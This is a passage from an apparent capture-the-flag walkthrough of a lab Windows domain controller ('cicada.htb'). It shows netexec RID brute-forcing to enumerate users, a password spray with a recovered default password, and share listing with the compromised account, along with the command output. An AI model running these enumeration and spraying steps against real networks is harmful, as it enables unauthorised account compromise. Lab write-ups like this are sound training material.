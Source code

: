 Now that we have a password we can do a password spray but we need a list os user names.  
To get the the users in the machine we use `--rid-brute` flag on the `netexec` , this will enumerate users by bruteforcing RIDs.
```bash
# since the list is big we direct the out put to a file
nxc smb cicada.htb -u '.' -p '' --rid-brute > userslist.txt 

# to filter the list we can use the awk command
awk -F : '{ print $2 }' userslist.txt | grep 'SidTypeUser' | awk -F '\' '{ print $2 }' | awk -F ' ' '{ print $1 }' > users.txt

# here is the users list but we can go further and delete the fist 3 since they are default
cat users.txt 
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

Now with that we do the password spray.
```bash
nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'

SMB         10.129.66.140   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.66.140   445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.66.140   445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.66.140   445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.66.140   445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.66.140   445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.66.140   445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.66.140   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 

```

We get a success on `michael.wrightson` which means he didn't change the password.  
We list the shares now as michael .
```bash
nxc smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.129.66.140   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.66.140   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.66.140   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.66.140   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.66.140   445    CICADA-DC        -----           -----------     ------
SMB         10.129.66.140   445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.66.140   445    CICADA-DC        C$                              Default share
SMB         10.129.66.140   445    CICADA-DC        DEV                             
SMB         10.129.66.140   445    CICADA-DC        HR              READ            
SMB         10.129.66.140   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.66.140   445    CICADA-DC        NETLOGON        READ            Logon server share 
```